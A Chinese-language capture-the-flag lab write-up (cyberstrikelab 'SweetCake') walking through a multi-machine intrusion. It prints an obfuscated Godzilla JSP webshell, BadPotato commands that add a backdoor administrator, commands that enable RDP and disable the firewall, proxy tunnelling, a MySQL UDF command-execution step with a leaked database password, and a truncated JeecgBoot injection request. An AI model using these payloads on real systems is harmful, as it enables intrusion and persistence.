# cyberstrikelab—SweetCake-先知社区

> **来源**: https://xz.aliyun.com/news/17248  
> **文章ID**: 17248

---

# cyberstrikelab—SweetCake

# 第一台机器

## 信息收集

根据提示有S2

fscan扫一波

```
E:\Tool\天狐渗透工具箱-社区版V1.2\Tool\fscan\fscanplus>fscanPlus_amd64.exe -h 172.30.56.33 -p 1-65535

  ______                   _____  _
 |  ____|                 |  __ \| |
 | |__ ___  ___ __ _ _ __ | |__) | |_   _ ___
 |  __/ __|/ __/ _  |  _ \|  ___/| | | | / __|
 | |  \__ \ (_| (_| | | | | |    | | |_| \__ \
 |_|  |___/\___\__,_|_| |_|_|    |_|\__,_|___/
                     fscan version: 1.8.4 TeamdArk5 v1.0
start infoscan
172.30.56.33:139 open
172.30.56.33:445 open
172.30.56.33:135 open
172.30.56.33:5985 open
172.30.56.33:8009 open
172.30.56.33:8888 open
172.30.56.33:47001 open
172.30.56.33:49667 open
172.30.56.33:49665 open
172.30.56.33:49666 open
172.30.56.33:49664 open
172.30.56.33:50846 open
172.30.56.33:65478 open
[*] alive ports len is: 13
start vulscan
[*] WebTitle http://172.30.56.33:8888  code:200 len:11432  title:Apache Tomcat/8.5.19
[*] NetInfo
[*]172.30.56.33
   [->]WIN-7FG2NCR5C8E
   [->]172.30.56.33
   [->]172.30.58.42
[*] WebTitle http://172.30.56.33:47001 code:404 len:315    title:Not Found
[*] WebTitle http://172.30.56.33:5985  code:404 len:315    title:Not Found
Read failed: read tcp 172.16.233.2:29829->172.30.56.33:445: wsarecv: An existing connection was forcibly closed by the remote host.
[*] NetBios 172.30.56.33    WIN-7FG2NCR5C8E      Windows Version 10.0 Build 20348
已完成 13/13
[*] 扫描结束,耗时: 5m47.1706335s
```

只有一个8888端口，打开是tomcat

### 目录扫描

进行目录扫描，扫了半天没戏，后面使用seem师傅之前发的红队目录字典扫了43w，最后一个扫出来......



## 漏洞发现



## 漏洞利用

使用工具梭哈



传一个目录到根目录

猜测有杀软，使用哥斯拉特战版做混淆

```
<jsp:root xmlns:jsp="http://java.sun.com/JSP/Page" version="1.2"><jsp:declaration>&#32;&#83;&#116;&#114;&#105;&#110;&#103;&#32;&#120;&#99;&#61;&#34;&#51;&#99;&#54;&#101;&#48;&#98;&#56;&#97;&#57;&#99;&#49;&#53;&#50;&#50;&#52;&#97;&#34;&#59;&#32;&#83;&#116;&#114;&#105;&#110;&#103;&#32;&#112;&#97;&#115;&#115;&#61;&#34;&#112;&#97;&#115;&#115;&#34;&#59;&#32;&#83;&#116;&#114;&#105;&#110;&#103;&#32;&#109;&#100;&#53;&#61;&#109;&#100;&#53;&#40;&#112;&#97;&#115;&#115;&#43;&#120;&#99;&#41;&#59;&#32;&#99;&#108;&#97;&#115;&#115;&#32;&#88;&#32;&#101;&#120;&#116;&#101;&#110;&#100;&#115;&#32;&#67;&#108;&#97;&#115;&#115;&#76;&#111;&#97;&#100;&#101;&#114;&#123;&#112;&#117;&#98;&#108;&#105;&#99;&#32;&#88;&#40;&#67;&#108;&#97;&#115;&#115;&#76;&#111;&#97;&#100;&#101;&#114;&#32;&#122;&#41;&#123;&#115;&#117;&#112;&#101;&#114;&#40;&#122;&#41;&#59;&#125;&#112;&#117;&#98;&#108;&#105;&#99;&#32;&#67;&#108;&#97;&#115;&#115;&#32;&#81;&#40;&#98;&#121;&#116;&#101;&#91;&#93;&#32;&#99;&#98;&#41;&#123;&#114;&#101;&#116;&#117;&#114;&#110;&#32;&#115;&#117;&#112;&#101;&#114;&#46;&#100;&#101;&#102;&#105;&#110;&#101;&#67;&#108;&#97;&#115;&#115;&#40;&#99;&#98;&#44;&#32;&#48;&#44;&#32;&#99;&#98;&#46;&#108;&#101;&#110;&#103;&#116;&#104;&#41;&#59;&#125;&#32;&#125;&#112;&#117;&#98;&#108;&#105;&#99;&#32;&#98;&#121;&#116;&#101;&#91;&#93;&#32;&#120;&#40;&#98;&#121;&#116;&#101;&#91;&#93;&#32;&#115;&#44;&#98;&#111;&#111;&#108;&#101;&#97;&#110;&#32;&#109;&#41;&#123;&#32;&#116;&#114;&#121;&#123;&#106;&#97;&#118;&#97;&#120;&#46;&#99;&#114;&#121;&#112;&#116;&#111;&#46;&#67;&#105;&#112;&#104;&#101;&#114;&#32;&#99;&#61;&#106;&#97;&#118;&#97;&#120;&#46;&#99;&#114;&#121;&#112;&#116;&#111;&#46;&#67;&#105;&#112;&#104;&#101;&#114;&#46;&#103;&#101;&#116;&#73;&#110;&#115;&#116;&#97;&#110;&#99;&#101;&#40;&#34;&#65;&#69;&#83;&#34;&#41;&#59;&#99;&#46;&#105;&#110;&#105;&#116;&#40;&#109;&#63;&#49;&#58;&#50;&#44;&#110;&#101;&#119;&#32;&#106;&#97;&#118;&#97;&#120;&#46;&#99;&#114;&#121;&#112;&#116;&#111;&#46;&#115;&#112;&#101;&#99;&#46;&#83;&#101;&#99;&#114;&#101;&#116;&#75;&#101;&#121;&#83;&#112;&#101;&#99;&#40;&#120;&#99;&#46;&#103;&#101;&#116;&#66;&#121;&#116;&#101;&#115;&#40;&#41;&#44;&#34;&#65;&#69;&#83;&#34;&#41;&#41;&#59;&#114;&#101;&#116;&#117;&#114;&#110;&#32;&#99;&#46;&#100;&#111;&#70;&#105;&#110;&#97;&#108;&#40;&#115;&#41;&#59;&#32;&#125;&#99;&#97;&#116;&#99;&#104;&#32;&#40;&#69;&#120;&#99;&#101;&#112;&#116;&#105;&#111;&#110;&#32;&#101;&#41;&#123;&#114;&#101;&#116;&#117;&#114;&#110;&#32;&#110;&#117;&#108;&#108;&#59;&#32;&#125;&#125;&#32;&#112;&#117;&#98;&#108;&#105;&#99;&#32;&#115;&#116;&#97;&#116;&#105;&#99;&#32;&#83;&#116;&#114;&#105;&#110;&#103;&#32;&#109;&#100;&#53;&#40;&#83;&#116;&#114;&#105;&#110;&#103;&#32;&#115;&#41;&#32;&#123;&#83;&#116;&#114;&#105;&#110;&#103;&#32;&#114;&#101;&#116;&#32;&#61;&#32;&#110;&#117;&#108;&#108;&#59;&#116;&#114;&#121;&#32;&#123;&#106;&#97;&#118;&#97;&#46;&#115;&#101;&#99;&#117;&#114;&#105;&#116;&#121;&#46;&#77;&#101;&#115;&#115;&#97;&#103;&#101;&#68;&#105;&#103;&#101;&#115;&#116;&#32;&#109;&#59;&#109;&#32;&#61;&#32;&#106;&#97;&#118;&#97;&#46;&#115;&#101;&#99;&#117;&#114;&#105;&#116;&#121;&#46;&#77;&#101;&#115;&#115;&#97;&#103;&#101;&#68;&#105;&#103;&#101;&#115;&#116;&#46;&#103;&#101;&#116;&#73;&#110;&#115;&#116;&#97;&#110;&#99;&#101;&#40;&#34;&#77;&#68;&#53;&#34;&#41;&#59;&#109;&#46;&#117;&#112;&#100;&#97;&#116;&#101;&#40;&#115;&#46;&#103;&#101;&#116;&#66;&#121;&#116;&#101;&#115;&#40;&#41;&#44;&#32;&#48;&#44;&#32;&#115;&#46;&#108;&#101;&#110;&#103;&#116;&#104;&#40;&#41;&#41;&#59;&#114;&#101;&#116;&#32;&#61;&#32;&#110;&#101;&#119;&#32;&#106;&#97;&#118;&#97;&#46;&#109;&#97;&#116;&#104;&#46;&#66;&#105;&#103;&#73;&#110;&#116;&#101;&#103;&#101;&#114;&#40;&#49;&#44;&#32;&#109;&#46;&#100;&#105;&#103;&#101;&#115;&#116;&#40;&#41;&#41;&#46;&#116;&#111;&#83;&#116;&#114;&#105;&#110;&#103;&#40;&#49;&#54;&#41;&#46;&#116;&#111;&#85;&#112;&#112;&#101;&#114;&#67;&#97;&#115;&#101;&#40;&#41;&#59;&#125;&#32;&#99;&#97;&#116;&#99;&#104;&#32;&#40;&#69;&#120;&#99;&#101;&#112;&#116;&#105;&#111;&#110;&#32;&#101;&#41;&#32;&#123;&#125;&#114;&#101;&#116;&#117;&#114;&#110;&#32;&#114;&#101;&#116;&#59;&#32;&#125;&#32;&#112;&#117;&#98;&#108;&#105;&#99;&#32;&#115;&#116;&#97;&#116;&#105;&#99;&#32;&#83;&#116;&#114;&#105;&#110;&#103;&#32;&#98;&#97;&#115;&#101;&#54;&#52;&#69;&#110;&#99;&#111;&#100;&#101;&#40;&#98;&#121;&#116;&#101;&#91;&#93;&#32;&#98;&#115;&#41;&#32;&#116;&#104;&#114;&#111;&#119;&#115;&#32;&#69;&#120;&#99;&#101;&#112;&#116;&#105;&#111;&#110;&#32;&#123;&#67;&#108;&#97;&#115;&#115;&#32;&#98;&#97;&#115;&#101;&#54;&#52;&#59;&#83;&#116;&#114;&#105;&#110;&#103;&#32;&#118;&#97;&#108;&#117;&#101;&#32;&#61;&#32;&#110;&#117;&#108;&#108;&#59;&#116;&#114;&#121;&#32;&#123;&#98;&#97;&#115;&#101;&#54;&#52;&#61;&#67;&#108;&#97;&#115;&#115;&#46;&#102;&#111;&#114;&#78;&#97;&#109;&#101;&#40;&#34;&#106;&#97;&#118;&#97;&#46;&#117;&#116;&#105;&#108;&#46;&#66;&#97;&#115;&#101;&#54;&#52;&#34;&#41;&#59;&#79;&#98;&#106;&#101;&#99;&#116;&#32;&#69;&#110;&#99;&#111;&#100;&#101;&#114;&#32;&#61;&#32;&#98;&#97;&#115;&#101;&#54;&#52;&#46;&#103;&#101;&#116;&#77;&#101;&#116;&#104;&#111;&#100;&#40;&#34;&#103;&#101;&#116;&#69;&#110;&#99;&#111;&#100;&#101;&#114;&#34;&#44;&#32;&#110;&#117;&#108;&#108;&#41;&#46;&#105;&#110;&#118;&#111;&#107;&#101;&#40;&#98;&#97;&#115;&#101;&#54;&#52;&#44;&#32;&#110;&#117;&#108;&#108;&#41;&#59;&#118;&#97;&#108;&#117;&#101;&#32;&#61;&#32;&#40;&#83;&#116;&#114;&#105;&#110;&#103;&#41;&#69;&#110;&#99;&#111;&#100;&#101;&#114;&#46;&#103;&#101;&#116;&#67;&#108;&#97;&#115;&#115;&#40;&#41;&#46;&#103;&#101;&#116;&#77;&#101;&#116;&#104;&#111;&#100;&#40;&#34;&#101;&#110;&#99;&#111;&#100;&#101;&#84;&#111;&#83;&#116;&#114;&#105;&#110;&#103;&#34;&#44;&#32;&#110;&#101;&#119;&#32;&#67;&#108;&#97;&#115;&#115;&#91;&#93;&#32;&#123;&#32;&#98;&#121;&#116;&#101;&#91;&#93;&#46;&#99;&#108;&#97;&#115;&#115;&#32;&#125;&#41;&#46;&#105;&#110;&#118;&#111;&#107;&#101;&#40;&#69;&#110;&#99;&#111;&#100;&#101;&#114;&#44;&#32;&#110;&#101;&#119;&#32;&#79;&#98;&#106;&#101;&#99;&#116;&#91;&#93;&#32;&#123;&#32;&#98;&#115;&#32;&#125;&#41;&#59;&#125;&#32;&#99;&#97;&#116;&#99;&#104;&#32;&#40;&#69;&#120;&#99;&#101;&#112;&#116;&#105;&#111;&#110;&#32;&#101;&#41;&#32;&#123;&#116;&#114;&#121;&#32;&#123;&#32;&#98;&#97;&#115;&#101;&#54;&#52;&#61;&#67;&#108;&#97;&#115;&#115;&#46;&#102;&#111;&#114;&#78;&#97;&#109;&#101;&#40;&#34;&#115;&#117;&#110;&#46;&#109;&#105;&#115;&#99;&#46;&#66;&#65;&#83;&#69;&#54;&#52;&#69;&#110;&#99;&#111;&#100;&#101;&#114;&#34;&#41;&#59;&#32;&#79;&#98;&#106;&#101;&#99;&#116;&#32;&#69;&#110;&#99;&#111;&#100;&#101;&#114;&#32;&#61;&#32;&#98;&#97;&#115;&#101;&#54;&#52;&#46;&#110;&#101;&#119;&#73;&#110;&#115;&#116;&#97;&#110;&#99;&#101;&#40;&#41;&#59;&#32;&#118;&#97;&#108;&#117;&#101;&#32;&#61;&#32;&#40;&#83;&#116;&#114;&#105;&#110;&#103;&#41;&#69;&#110;&#99;&#111;&#100;&#101;&#114;&#46;&#103;&#101;&#116;&#67;&#108;&#97;&#115;&#115;&#40;&#41;&#46;&#103;&#101;&#116;&#77;&#101;&#116;&#104;&#111;&#100;&#40;&#34;&#101;&#110;&#99;&#111;&#100;&#101;&#34;&#44;&#32;&#110;&#101;&#119;&#32;&#67;&#108;&#97;&#115;&#115;&#91;&#93;&#32;&#123;&#32;&#98;&#121;&#116;&#101;&#91;&#93;&#46;&#99;&#108;&#97;&#115;&#115;&#32;&#125;&#41;&#46;&#105;&#110;&#118;&#111;&#107;&#101;&#40;&#69;&#110;&#99;&#111;&#100;&#101;&#114;&#44;&#32;&#110;&#101;&#119;&#32;&#79;&#98;&#106;&#101;&#99;&#116;&#91;&#93;&#32;&#123;&#32;&#98;&#115;&#32;&#125;&#41;&#59;&#125;&#32;&#99;&#97;&#116;&#99;&#104;&#32;&#40;&#69;&#120;&#99;&#101;&#112;&#116;&#105;&#111;&#110;&#32;&#101;&#50;&#41;&#32;&#123;&#125;&#125;&#114;&#101;&#116;&#117;&#114;&#110;&#32;&#118;&#97;&#108;&#117;&#101;&#59;&#32;&#125;&#32;&#112;&#117;&#98;&#108;&#105;&#99;&#32;&#115;&#116;&#97;&#116;&#105;&#99;&#32;&#98;&#121;&#116;&#101;&#91;&#93;&#32;&#98;&#97;&#115;&#101;&#54;&#52;&#68;&#101;&#99;&#111;&#100;&#101;&#40;&#83;&#116;&#114;&#105;&#110;&#103;&#32;&#98;&#115;&#41;&#32;&#116;&#104;&#114;&#111;&#119;&#115;&#32;&#69;&#120;&#99;&#101;&#112;&#116;&#105;&#111;&#110;&#32;&#123;&#67;&#108;&#97;&#115;&#115;&#32;&#98;&#97;&#115;&#101;&#54;&#52;&#59;&#98;&#121;&#116;&#101;&#91;&#93;&#32;&#118;&#97;&#108;&#117;&#101;&#32;&#61;&#32;&#110;&#117;&#108;&#108;&#59;&#116;&#114;&#121;&#32;&#123;&#98;&#97;&#115;&#101;&#54;&#52;&#61;&#67;&#108;&#97;&#115;&#115;&#46;&#102;&#111;&#114;&#78;&#97;&#109;&#101;&#40;&#34;&#106;&#97;&#118;&#97;&#46;&#117;&#116;&#105;&#108;&#46;&#66;&#97;&#115;&#101;&#54;&#52;&#34;&#41;&#59;&#79;&#98;&#106;&#101;&#99;&#116;&#32;&#100;&#101;&#99;&#111;&#100;&#101;&#114;&#32;&#61;&#32;&#98;&#97;&#115;&#101;&#54;&#52;&#46;&#103;&#101;&#116;&#77;&#101;&#116;&#104;&#111;&#100;&#40;&#34;&#103;&#101;&#116;&#68;&#101;&#99;&#111;&#100;&#101;&#114;&#34;&#44;&#32;&#110;&#117;&#108;&#108;&#41;&#46;&#105;&#110;&#118;&#111;&#107;&#101;&#40;&#98;&#97;&#115;&#101;&#54;&#52;&#44;&#32;&#110;&#117;&#108;&#108;&#41;&#59;&#118;&#97;&#108;&#117;&#101;&#32;&#61;&#32;&#40;&#98;&#121;&#116;&#101;&#91;&#93;&#41;&#100;&#101;&#99;&#111;&#100;&#101;&#114;&#46;&#103;&#101;&#116;&#67;&#108;&#97;&#115;&#115;&#40;&#41;&#46;&#103;&#101;&#116;&#77;&#101;&#116;&#104;&#111;&#100;&#40;&#34;&#100;&#101;&#99;&#111;&#100;&#101;&#34;&#44;&#32;&#110;&#101;&#119;&#32;&#67;&#108;&#97;&#115;&#115;&#91;&#93;&#32;&#123;&#32;&#83;&#116;&#114;&#105;&#110;&#103;&#46;&#99;&#108;&#97;&#115;&#115;&#32;&#125;&#41;&#46;&#105;&#110;&#118;&#111;&#107;&#101;&#40;&#100;&#101;&#99;&#111;&#100;&#101;&#114;&#44;&#32;&#110;&#101;&#119;&#32;&#79;&#98;&#106;&#101;&#99;&#116;&#91;&#93;&#32;&#123;&#32;&#98;&#115;&#32;&#125;&#41;&#59;&#125;&#32;&#99;&#97;&#116;&#99;&#104;&#32;&#40;&#69;&#120;&#99;&#101;&#112;&#116;&#105;&#111;&#110;&#32;&#101;&#41;&#32;&#123;&#116;&#114;&#121;&#32;&#123;&#32;&#98;&#97;&#115;&#101;&#54;&#52;&#61;&#67;&#108;&#97;&#115;&#115;&#46;&#102;&#111;&#114;&#78;&#97;&#109;&#101;&#40;&#34;&#115;&#117;&#110;&#46;&#109;&#105;&#115;&#99;&#46;&#66;&#65;&#83;&#69;&#54;&#52;&#68;&#101;&#99;&#111;&#100;&#101;&#114;&#34;&#41;&#59;&#32;&#79;&#98;&#106;&#101;&#99;&#116;&#32;&#100;&#101;&#99;&#111;&#100;&#101;&#114;&#32;&#61;&#32;&#98;&#97;&#115;&#101;&#54;&#52;&#46;&#110;&#101;&#119;&#73;&#110;&#115;&#116;&#97;&#110;&#99;&#101;&#40;&#41;&#59;&#32;&#118;&#97;&#108;&#117;&#101;&#32;&#61;&#32;&#40;&#98;&#121;&#116;&#101;&#91;&#93;&#41;&#100;&#101;&#99;&#111;&#100;&#101;&#114;&#46;&#103;&#101;&#116;&#67;&#108;&#97;&#115;&#115;&#40;&#41;&#46;&#103;&#101;&#116;&#77;&#101;&#116;&#104;&#111;&#100;&#40;&#34;&#100;&#101;&#99;&#111;&#100;&#101;&#66;&#117;&#102;&#102;&#101;&#114;&#34;&#44;&#32;&#110;&#101;&#119;&#32;&#67;&#108;&#97;&#115;&#115;&#91;&#93;&#32;&#123;&#32;&#83;&#116;&#114;&#105;&#110;&#103;&#46;&#99;&#108;&#97;&#115;&#115;&#32;&#125;&#41;&#46;&#105;&#110;&#118;&#111;&#107;&#101;&#40;&#100;&#101;&#99;&#111;&#100;&#101;&#114;&#44;&#32;&#110;&#101;&#119;&#32;&#79;&#98;&#106;&#101;&#99;&#116;&#91;&#93;&#32;&#123;&#32;&#98;&#115;&#32;&#125;&#41;&#59;&#125;&#32;&#99;&#97;&#116;&#99;&#104;&#32;&#40;&#69;&#120;&#99;&#101;&#112;&#116;&#105;&#111;&#110;&#32;&#101;&#50;&#41;&#32;&#123;&#125;&#125;&#114;&#101;&#116;&#117;&#114;&#110;&#32;&#118;&#97;&#108;&#117;&#101;&#59;&#32;&#125;&#13;&#10;</jsp:declaration><jsp:scriptlet>&#116;&#114;&#121;&#123;&#98;&#121;&#116;&#101;&#91;&#93;&#32;&#100;&#97;&#116;&#97;&#61;&#98;&#97;&#115;&#101;&#54;&#52;&#68;&#101;&#99;&#111;&#100;&#101;&#40;&#114;&#101;&#113;&#117;&#101;&#115;&#116;&#46;&#103;&#101;&#116;&#80;&#97;&#114;&#97;&#109;&#101;&#116;&#101;&#114;&#40;&#112;&#97;&#115;&#115;&#41;&#41;&#59;&#100;&#97;&#116;&#97;&#61;&#120;&#40;&#100;&#97;&#116;&#97;&#44;&#32;&#102;&#97;&#108;&#115;&#101;&#41;&#59;&#105;&#102;&#32;&#40;&#97;&#112;&#112;&#108;&#105;&#99;&#97;&#116;&#105;&#111;&#110;&#46;&#103;&#101;&#116;&#65;&#116;&#116;&#114;&#105;&#98;&#117;&#116;&#101;&#40;&#34;&#110;&#107;&#55;&#81;&#74;&#115;&#34;&#41;&#61;&#61;&#110;&#117;&#108;&#108;&#41;&#123;&#97;&#112;&#112;&#108;&#105;&#99;&#97;&#116;&#105;&#111;&#110;&#46;&#115;&#101;&#116;&#65;&#116;&#116;&#114;&#105;&#98;&#117;&#116;&#101;&#40;&#34;&#110;&#107;&#55;&#81;&#74;&#115;&#34;&#44;&#110;&#101;&#119;&#32;&#88;&#40;&#116;&#104;&#105;&#115;&#46;&#103;&#101;&#116;&#67;&#108;&#97;&#115;&#115;&#40;&#41;&#46;&#103;&#101;&#116;&#67;&#108;&#97;&#115;&#115;&#76;&#111;&#97;&#100;&#101;&#114;&#40;&#41;&#41;&#46;&#81;&#40;&#100;&#97;&#116;&#97;&#41;&#41;&#59;&#125;&#101;&#108;&#115;&#101;&#123;&#106;&#97;&#118;&#97;&#46;&#105;&#111;&#46;&#66;&#121;&#116;&#101;&#65;&#114;&#114;&#97;&#121;&#79;&#117;&#116;&#112;&#117;&#116;&#83;&#116;&#114;&#101;&#97;&#109;&#32;&#97;&#114;&#114;&#79;&#117;&#116;&#61;&#110;&#101;&#119;&#32;&#106;&#97;&#118;&#97;&#46;&#105;&#111;&#46;&#66;&#121;&#116;&#101;&#65;&#114;&#114;&#97;&#121;&#79;&#117;&#116;&#112;&#117;&#116;&#83;&#116;&#114;&#101;&#97;&#109;&#40;&#41;&#59;&#79;&#98;&#106;&#101;&#99;&#116;&#32;&#102;&#61;&#40;&#40;&#67;&#108;&#97;&#115;&#115;&#41;&#97;&#112;&#112;&#108;&#105;&#99;&#97;&#116;&#105;&#111;&#110;&#46;&#103;&#101;&#116;&#65;&#116;&#116;&#114;&#105;&#98;&#117;&#116;&#101;&#40;&#34;&#110;&#107;&#55;&#81;&#74;&#115;&#34;&#41;&#41;&#46;&#110;&#101;&#119;&#73;&#110;&#115;&#116;&#97;&#110;&#99;&#101;&#40;&#41;&#59;&#102;&#46;&#101;&#113;&#117;&#97;&#108;&#115;&#40;&#114;&#101;&#113;&#117;&#101;&#115;&#116;&#41;&#59;&#102;&#46;&#101;&#113;&#117;&#97;&#108;&#115;&#40;&#97;&#114;&#114;&#79;&#117;&#116;&#41;&#59;&#102;&#46;&#101;&#113;&#117;&#97;&#108;&#115;&#40;&#100;&#97;&#116;&#97;&#41;&#59;&#114;&#101;&#115;&#112;&#111;&#110;&#115;&#101;&#46;&#103;&#101;&#116;&#87;&#114;&#105;&#116;&#101;&#114;&#40;&#41;&#46;&#119;&#114;&#105;&#116;&#101;&#40;&#109;&#100;&#53;&#46;&#115;&#117;&#98;&#115;&#116;&#114;&#105;&#110;&#103;&#40;&#48;&#44;&#49;&#54;&#41;&#41;&#59;&#102;&#46;&#116;&#111;&#83;&#116;&#114;&#105;&#110;&#103;&#40;&#41;&#59;&#114;&#101;&#115;&#112;&#111;&#110;&#115;&#101;&#46;&#103;&#101;&#116;&#87;&#114;&#105;&#116;&#101;&#114;&#40;&#41;&#46;&#119;&#114;&#105;&#116;&#101;&#40;&#98;&#97;&#115;&#101;&#54;&#52;&#69;&#110;&#99;&#111;&#100;&#101;&#40;&#120;&#40;&#97;&#114;&#114;&#79;&#117;&#116;&#46;&#116;&#111;&#66;&#121;&#116;&#101;&#65;&#114;&#114;&#97;&#121;&#40;&#41;&#44;&#32;&#116;&#114;&#117;&#101;&#41;&#41;&#41;&#59;&#114;&#101;&#115;&#112;&#111;&#110;&#115;&#101;&#46;&#103;&#101;&#116;&#87;&#114;&#105;&#116;&#101;&#114;&#40;&#41;&#46;&#119;&#114;&#105;&#116;&#101;&#40;&#109;&#100;&#53;&#46;&#115;&#117;&#98;&#115;&#116;&#114;&#105;&#110;&#103;&#40;&#49;&#54;&#41;&#41;&#59;&#125;&#32;&#125;&#99;&#97;&#116;&#99;&#104;&#32;&#40;&#69;&#120;&#99;&#101;&#112;&#116;&#105;&#111;&#110;&#32;&#101;&#41;&#123;&#125;&#13;&#10;</jsp:scriptlet></jsp:root>
```







发现有Windows Defender，掩日做免杀（实际上这个杀软没开）

权限较低上线CS提权，但是反向上线不了，后面上去发现是因为防火墙，所以就有几个打法了...

### 方法一

因为这里Windows Defender其实是没开的，所以我们可以直接用BadPotato.exe提权



然后就可以创建后门用户开启3389

```
BadPotato.exe "net user hack01 1324@cbD /add"
BadPotato.exe "net localgroup Administrators hack01 /add"
```

开3389不能直接这样执行，因为引号会受到影响

写一个bat

```
@echo off
:: 开启远程桌面连接
REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

:: 如果防火墙开启，则需要允许3389端口通过防火墙
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes

echo Remote Desktop has been enabled.
pause
```

直接执行bat

```
BadPotato.exe "1.bat"
```


上去关闭防火墙



这里也可以直接用BadPotato.exe执行命令关闭防火墙，但是后门也要创建用户上来的，直接上来关。

#### 关闭Windows防火墙的命令

对于所有网络配置文件（域、专用和公共），您可以使用以下命令：

```
netsh advfirewall set allprofiles state off
```

这条命令会关闭适用于域网络、专用网络和公共网络的所有Windows防火墙配置文件。

#### 仅关闭特定网络配置文件的防火墙

如果您只想针对特定的网络配置文件关闭防火墙，可以分别使用下面的命令：

* 关闭域网络的防火墙：

```
netsh advfirewall set domainprofile state off
```

* 关闭专用网络的防火墙：

```
netsh advfirewall set privateprofile state off
```

* 关闭公共网络的防火墙：

```
netsh advfirewall set publicprofile state off
```

执行上述任一命令前，请确保您具有管理员权限，并谨慎考虑关闭防火墙带来的安全风险。关闭防火墙会使您的系统或网络更容易受到未授权访问的影响。如果是在测试环境中操作，请确保在完成测试后重新启用防火墙。重新启用防火墙只需将上述命令中的off替换为on即可。

### 方法二

反向连接失败就试试正向连接

#### 上线Vshell

先用Vshell试试，这个正向连接好用

发现能成功上线



#### 上线CS

然后上线CS

先给本地机器上线CS

然后生成一个4444的正向客户端

再生成一个5555的正向客户端

这里4444是用来上线CS的，5555是用来提权的

（开始想直接用Bad土豆添加一个后门用户开3389，但是3389没开启成功，估计是引号的问题）

Vshell执行4444客户端

```
connect 172.30.56.33 4444
```

然后用Bad土豆执行5555客户端

```
connect 172.30.56.33 5555
```



## Stowaway搭建第一层代理

攻击机

```
C:\Users\Anonymous\Desktop\代理工具\stowaway>windows_x64_admin.exe -l 9000 -s 123
[*] Starting admin node on port 9000

    .-')    .-') _                  ('\ .-') /'  ('-.      ('\ .-') /'  ('-.
   ( OO ). (  OO) )                  '.( OO ),' ( OO ).-.   '.( OO ),' ( OO ).-.
   (_)---\_)/     '._  .-'),-----. ,--./  .--.   / . --. /,--./  .--.   / . --. /  ,--.   ,--.
   /    _ | |'--...__)( OO'  .-.  '|      |  |   | \-.  \ |      |  |   | \-.  \    \  '.'  /
   \  :' '. '--.  .--'/   |  | |  ||  |   |  |,.-'-'  |  ||  |   |  |,.-'-'  |  | .-')     /
    '..'''.)   |  |   \_) |  |\|  ||  |.'.|  |_)\| |_.'  ||  |.'.|  |_)\| |_.'  |(OO  \   /
   .-._)   \   |  |     \ |  | |  ||         |   |  .-.  ||         |   |  .-.  | |   /  /\_
   \       /   |  |      ''  '-'  '|   ,'.   |   |  | |  ||   ,'.   |   |  | |  | '-./  /.__)
    '-----'    '--'        '-----' '--'   '--'   '--' '--''--'   '--'   '--' '--'   '--'
                                    { v2.2  Author:ph4ntom }
[*] Waiting for new connection...
[*] Connection from node 172.30.56.33:54928 is set up successfully! Node id is 0
(admin) >> use 0
(node 0) >> socks 2000
[*] Trying to listen on 0.0.0.0:2000......
[*] Waiting for agent's response......
[*] Socks start successfully!
```

目标机

```
windows_x64_agent.exe -c 172.16.233.2:9000 -s 123 --reconnect 8
```

## 第一层内网信息收集

上传fscan

```
172.30.58.77:139 open
172.30.58.79:139 open
172.30.58.42:139 open
172.30.58.79:3306 open
172.30.58.77:445 open
172.30.58.79:445 open
172.30.58.42:445 open
172.30.58.77:135 open
172.30.58.79:135 open
172.30.58.42:135 open
172.30.58.78:22 open
172.30.58.42:8888 open
172.30.58.79:8085 open
172.30.58.42:8009 open
[+] NetInfo:
[*]172.30.58.42
   [->]WIN-7FG2NCR5C8E
   [->]172.30.56.33
   [->]172.30.58.42
[+] NetInfo:
[*]172.30.58.79
   [->]WIN-85B7F32VC8H
   [->]172.30.58.79
[*] 172.30.58.79         WORKGROUP\WIN-85B7F32VC8H   Windows Server 2016 Standard 14393
[+] NetInfo:
[*]172.30.58.77
   [->]WIN-UPQLOPM011B
   [->]172.30.58.77
[*] 172.30.58.77         WORKGROUP\WIN-UPQLOPM011B   Windows Server 2016 Datacenter 14393
[*] WebTitle:http://172.30.58.42:8888  code:200 len:11432  title:Apache Tomcat/8.5.19
[*] WebTitle:http://172.30.58.79:8085  code:200 len:58394  title:报表在线设计—积木报表
```

抓取一波明文和hash



Struts@cslab

# 第二台机器

这里估计是服务掉了，一直没起来，Air师傅之前打成功了。

## 通达OA




直接梭哈，但是执行不了命令



参考:<https://blog.csdn.net/u010025272/article/details/131016142>

通达oa数据库提权



直接读取数据库配置文件

root/HvaaOUr6n^v`\_dyw@0YjA

在mysql的目录下移⼊lib\_mysqludf\_sys.dll文件，lib\_mysqludf\_sys.dll可以使用sqlmap自带的，但是

sqlmap默认做了混淆，需要使用其自带的cloak⼯具转换才能使用。

```
python extra/cloak/cloak.py -d -i data/udf/mysql/windows/64/lib_mysqludf_sys.dll
```

lib和plugin目录原本是没有的，需要自己创建



```
create function sys_eval returns string soname 'lib_mysqludf_sys.dll';
select sys_eval("whoami");
```







使⽤badpotato提权，但是靶机实在是太卡，输⼊命令半分钟才有回显，⽽且由于编码等种种原因执⾏命  
令有时会报错，所以在1.bat中输⼊命令 使⽤badpotato执⾏即可。之后⽤rdp连接，直接读flag



# 第三台机器

发现是积木报表



## 漏洞利用

工具梭哈一下



发现是JeecgBoot AviatorScript表达式注入漏洞

点击新建报表，采用 BP 抓包进行重放，修改为如下 POC，重放两下，响应结果如下：此处采用 save 接口进行注入：

```
POST /jmreport/save?previousPage=xxx&jmLink=YWFhfHxiYmI=&token=123123 HTTP/1.1
Host: 172.30.58.79:8085
Content-Length: 2
sec-ch-ua: "Not-A.Brand";v="99", "Chromium";v="124"
X-Tenant-Id: null
JmReport-Tenant-Id: null
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
tenantId: null
Content-Type: application/json;charset=UTF-8
Accept: application/json, text/plain, */*
X-Access-Token: null
token: null
sec-ch-ua-platform: "Windows"
Origin: http://172.30.58.79:8085
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://172.30.58.79:8085/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
